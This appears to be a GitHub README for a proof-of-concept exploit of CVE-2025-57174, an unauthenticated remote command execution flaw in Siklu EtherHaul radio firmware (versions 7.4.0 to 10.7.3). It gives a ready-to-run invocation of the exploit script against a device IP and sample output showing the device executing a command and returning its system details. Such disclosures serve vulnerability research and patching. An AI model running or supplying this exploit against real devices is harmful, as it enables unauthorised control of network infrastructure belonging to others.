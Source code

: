 # CVE-2025-57174 - Siklu EtherHaul Series - Unauthenticated Remote Command Execution
CVE-2025-57174 Unauthenticated Remote Command Execution<br>
Affected Versions: Firmware 7.4.0 - 10.7.3 (likely all versions since 7.4.0)

How to use
```
python3 CVE-2025-57174.py 172.16.100.52 'simple-command show system' --nul --recv
Response: flag=0x00 msg=0x01 length=584
<end-code>ok</end-code><text>
system description               : EH-8010FX-L
system snmpid                    : .1.3.6.1.4.1.31926
system uptime                    : 0028:22:01:51
system contact                   : undefined
system name                      : EH-8010FX-L
system location                  : undefined
system voltage                   : poe (injector)
system temperature               : 47
system date                      : 2025.09.24
system time                      : 14:56:50
system cli-timeout               : 15
system loop-permission           : enabled
</text>
```

<img width="1420" height="772" alt="{5EB1C49C-5E07-479B-A00C-BFA12D08C721}" src="https://github.com/user-attachments/assets/c1ec87fa-ed57-4c76-83f3-61b7213fdf82" />
